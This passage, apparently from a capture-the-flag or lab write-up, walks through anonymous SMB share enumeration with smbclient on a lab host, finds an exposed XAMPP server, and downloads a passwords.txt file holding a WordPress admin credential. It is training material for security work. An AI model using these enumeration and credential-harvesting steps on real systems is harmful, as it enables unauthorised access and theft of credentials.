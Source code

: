kali@kali~# smbclient -L \\\\192.168.65.55
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        Shenzi          Disk      
SMB1 disabled -- no workgroup available

HTTP Enumeration

Navigating to http://192.168.65.55, we are presented with a default XAMPP dashboard. We can attempt to navigate to the phpMyAdmin page, but it is only accessible on the local network, and the PHP version info does not reveal anything of use to us.
Exploitation
Open Network Share

Since we can anonymously list SMB shares, perhaps there's a chance we can access a share anonymously as well. Let's try to enumerate the Shenzi share.

kali@kali~# smbclient \\\\192.168.65.55\\shenzi
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 11:45:09 2020
  ..                                  D        0  Thu May 28 11:45:09 2020
  passwords.txt                       A      894  Thu May 28 11:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 11:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 11:45:09 2020
  why.tmp                             A      213  Thu May 28 11:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 11:45:09 2020

                12941823 blocks of size 4096. 7642274 blocks available

We are able to connect to the share and list its contents. The passwords.txt file looks promising. Let's download it to our local machine.

smb: \> get passwords.txt
getting file \passwords.txt of size 894 as passwords.txt (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
smb: \> exit

The file contains what appears to be a username and a password for a Wordpress site.

kali@kali~# cat passwords.txt
### XAMPP Default Passwords ###

...

LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
